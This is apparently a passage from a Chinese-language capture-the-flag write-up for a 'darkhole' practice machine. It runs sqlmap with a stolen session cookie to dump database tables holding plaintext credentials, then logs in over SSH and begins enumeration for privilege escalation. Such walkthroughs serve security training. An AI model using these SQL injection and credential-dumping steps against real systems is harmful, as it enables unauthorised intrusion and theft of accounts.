     就不使用手工注入了，直接上`sqlmap` ，记得要想拿到`cookie` ，不然没有登陆状态
    
    ```python
    sqlmap -u http://192.168.75.185/dashboard.php?id=1 --cookie PHPSESSID=n22sg8e16sjbgs2c7g7kffofmf -batch
    ```
    
    爆出两张表 `users` 以及`ssh` ，`ssh`应该是能使用 `ssh`登录的用户，两张表的数据我们都`dump`下
    
    ```python
    # users
    +----+----------------+-------------------------------------------+----------+-----------------------------+----------------+
    | id | email          | address                                   | password | username                    | contact_number |
    +----+----------------+-------------------------------------------+----------+-----------------------------+----------------+
    | 1  | lush@admin.com |  Street, Pincode, Province/State, Country | 321      | Jehad Alqurashiasddasdasdas | 1              |
    +----+----------------+-------------------------------------------+----------+-----------------------------+----------------+
    # ssh
    +----+------+--------+
    | id | pass | user   |
    +----+------+--------+
    | 1  | fool | jehad  |
    +----+------+--------+
    ```
    
3. 我们拿`ssh`表的用户去登陆下

## 提权 - jehad用户

1. 我们拿`ssh`表的用户去登陆下
    
    ```python
    ssh jehad@192.168.75.185                
    jehad@darkhole:~$ 
    ```
    
    获得`shell`！！！
    
2. 查看权限
    
    ```python
    jehad@darkhole:~$ whoami
    jehad
    jehad@darkhole:~$ id
    uid=1001(jehad) gid=1001(jehad) groups=1001(jehad)
    jehad@darkhole:~$ uname -a
    Linux darkhole 5.4.0-81-generic #91-Ubuntu SMP Thu Jul 15 19:09:17 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
    ```
    